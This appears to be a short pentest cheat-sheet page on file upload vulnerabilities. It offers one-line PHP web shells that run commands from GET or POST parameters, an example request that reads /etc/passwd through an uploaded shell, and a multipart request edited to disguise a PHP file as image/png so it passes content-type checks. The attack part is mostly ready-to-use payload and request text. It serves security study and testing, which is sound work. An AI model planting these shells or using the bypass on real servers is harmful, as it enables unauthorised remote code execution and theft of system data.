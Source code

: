 # Upload Files

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution. 

## Table of Content

- [payload](#payload)
    - [php](#php)
- [bypass](#bye-pass)
    - [Content Type](#content-type)

## payload

### Php

This is a php payload of web shell (use the GET or POST)

```php
<?php system($_GET['cmd']); ?>
<?php echo exec($_POST['cmd']); ?>
```

usage: 

`http://simple.net/images/exploit.php?cmd=cat /etc/passwd`

or use [burpsuite](/tools/burpsuite/README.md) to send POST method (ofc you also can send POST with other application like curl)

## Bye Pass

### Content type

When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type application/x-www-form-url-encoded. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type multipart/form-data is preferred.

So to bypass Content type, locate it in the request and modifie it: 

```
------WebKitFormBoundaryzbUn7VlDKBoeBHQv
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: /image/png
```

before: `application/php` -> after: `image/png`

### Documentation

- [portswigger](https://portswigger.net/web-security/file-upload)

---

[**:arrow_right_hook: Back home**](/README.md)